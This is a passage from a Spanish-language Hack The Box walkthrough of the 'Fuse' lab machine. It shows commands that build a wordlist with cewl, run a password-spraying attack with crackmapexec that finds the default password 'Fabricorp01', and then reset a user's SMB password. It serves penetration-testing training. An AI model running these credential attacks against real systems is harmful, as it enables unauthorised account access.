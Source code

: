 ```
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Fuse]
└──╼ #cat usuarios 
pmerton
tlavel
sthompson
bhult
administrator
```

Ahora vamos a crear un diccionario con `cewl` con la información que hay en la página, ya que ni `smb` ni `rpc` nos deja logearnos de manera anónima.

```
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Fuse]
└──╼ #cewl -m 7 -w wordlist http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers -w diccionario.txt
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```



### Enumeración SMB

Usando la herramienta `crackmapexec` que nos permite realizar un ataque de [password spraying](https://doubleoctopus.com/security-wiki/threats-and-tools/password-spraying/#:~:text=Password%20spraying%20is%20an%20attack,account%20by%20guessing%20the%20password.) que básicamente intenta acceder a varias cuentas con muy pocas contraseñas, en este caso, con el diccionario que creamos anteriormente, vamos a revisar si la contraseña de algunos de los usuarios se encuentra en el diccionario, para esto, vamos a ejecutar el siguiente comando:

```
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Fuse]
└──╼ #crackmapexec smb 10.10.10.193 -u usuarios -p diccionario.txt

SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 (name:FUSE) (domain:fabricorp.local) (signin
g:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 
SMB        10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 
```

Observamos que la contraseña del usuario `tlavel` y `bhult`  es `Fabricorp01`, sin embargo, se debe cambiar esta. Así que vamos a utilizar el comando [smbpasswd](https://www.samba.org/samba/docs/current/man-html/smbpasswd.8.html) para cambiar la contraseña de SMB de alguno de estos usuarios. 

```
┌─[root@parrot]─[/home/nicolasmira101]
└──╼ #smbpasswd -U tlavel -r 10.10.10.193                          
Old SMB password:                                                    
New SMB password:                                                    
Retype new SMB password:                                             
Password changed for user tlavel on 10.10.10.193.                  
```
